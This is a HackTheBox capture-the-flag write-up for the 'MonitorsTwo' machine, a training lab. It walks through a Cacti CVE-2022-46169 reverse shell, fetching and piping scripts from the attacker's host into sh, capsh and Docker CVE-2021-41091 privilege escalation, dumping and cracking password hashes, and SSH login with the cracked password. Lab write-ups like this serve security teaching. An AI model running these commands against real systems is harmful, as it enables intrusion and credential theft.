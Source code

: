 ```yaml
---
title: "HTB - MonitorsTwo"
date: "11/10/2024"
description: "Write-up of the MonitorTwo machine on HackTheBox."
tags: ["HackTheBox"]
image: "https://miro.medium.com/v2/resize:fit:1400/1*fGQbeX4aQAe3lLtaRX02tQ.png"
readingTime: "10"
---
```


![preview](https://miro.medium.com/v2/resize:fit:1400/1*fGQbeX4aQAe3lLtaRX02tQ.png)

## Initial Reconnaissance

We begin by scanning the machine using nmap.

```bash
nmap -sC -sV [BOX_IP]
```

We can see that the port 80 is open. The application running on it is **cacti v1.2.22**. A quick search leads to an exploit for this version at the following GitHub repository: [CVE-2022-46169-CACTI-1.2.22](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22).

## Web Vulnerability Exploitation

```bash
git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```
```bash
nc -lvnp [YOUR_PORT]
```
```bash
python CVE-2022-46169.py -u http://[BOX_IP] --LHOST=[YOUR_IP] --LPORT=[YOUR_PORT]
```

Boom, we are inside the server.

## Privilege Escalation

On our machine, we set up a Python web server and pull [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest) to help with further enumeration.

```bash
sudo python3 -m http.server 80
```
```bash
curl http://[YOUR_IP]/linpeas.sh | sh
```

LinPEAS indicates a vulnerability with `capsh`. Using the ressources found on [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/), we find a way to exploit this vulnerability:

```bash
capsh --gid=0 --uid=0 --
```

Executing `whoami` confirms that we are root.

## Server Discovery

Navigating to the root directory, we locate `entrypoint.sh`. We can look into it with `cat` and then execute it.

```bash
chmod +x entrypoint.sh
./entrypoint.sh
```
We can see that this file requests the database for data with `root` as username and password.

We can take a look inside the different tables : 

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"
```

From the result of the previous command, we notice the `user_auth` table. We can take a look inside with the following command:

```bash
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
```

This command reveals password hashes for 3 users (admin, guest, marcus). We store the hashes of admin and marcus in `hashes.txt` and we will use hashcat to attempt a dictionary attack:

```bash
hashcat -m 3200 -a 0 hashes.txt rockyou-75.txt
```

From hashcat, we get the password `funkymonkey` for the user `marcus`. 

## Lateral Movement

Using this information and the fact that nmap also reported us port 22 (SSH) was open, we attempt an SSH login:

```bash
ssh marcus@[BOX_IP]
```

Once inside, a quick `ls` shows the `user.txt` file which grants us the user flag.

## New Privilege Escalation

To continue our efforts towards root access, we once again fetch `linpeas.sh` from our Python webserver. We identify Docker's presence on the machine. 
The Docker version installed, **20.10.5+dfsg1**, is vulnerable to an exploit found on GitHub: [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091).

Go back to your machine and clone the PoC repository.

```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091
```

```bash
cd /tmp
curl http://[YOUR_IP]/exp.sh > exp.sh
chmod +x exp.sh 
./exp.sh
```

The script asks you to execute the following command on the Docker environment (that we previously rooted).

```bash
chmod u+s /bin/bash
```

Navigate to the directory provided in the output of the script and execute:

```bash
./bin/bash -p
```

This grants us a root shell. To find the `root.txt` file, we can use the following command:

```bash
find / -type f -name root.txt 2>/dev/null 
```

Reading its content with `cat /root/root.txt` gives us the root flag.
Happy rooting :)